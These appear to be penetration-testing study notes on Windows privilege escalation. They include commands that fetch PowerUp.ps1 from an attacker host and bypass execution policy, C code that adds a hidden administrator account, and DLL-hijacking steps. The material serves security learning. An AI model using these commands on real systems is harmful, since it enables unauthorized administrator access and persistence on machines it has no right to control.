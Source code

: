 ```
shutdown /r /t 0


## Powerup.ps1 ##
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .

python3 -m http.server 80

iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

Get-ModifiableServiceFile

Install-ServiceBinary -Name 'mysql'
```

```
Malicious Binary Example

#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```


##### Service DLL Highjacking
- Microsoft DLL search order 
	1. The directory from which the application loaded.
	2. The system directory.
	3. The 16-bit system directory.
	4. The Windows directory. 
	5. The current directory.
	6. The directories that are listed in the PATH environment variable
- DLL Highjacking is replacing or adding a missing DLL that is malicious (example code below)
	- Procmon is a good resource for viewing any processes missing a DLL

Steps:
1. Identify potential service 
2. Start procmon, restart the service, and view service function calls
3. Verify PATH variable 
4. (KALI) Create malicious DLL and cross compile
5. Transfer to target
6. Restart service and verify malicious account creation

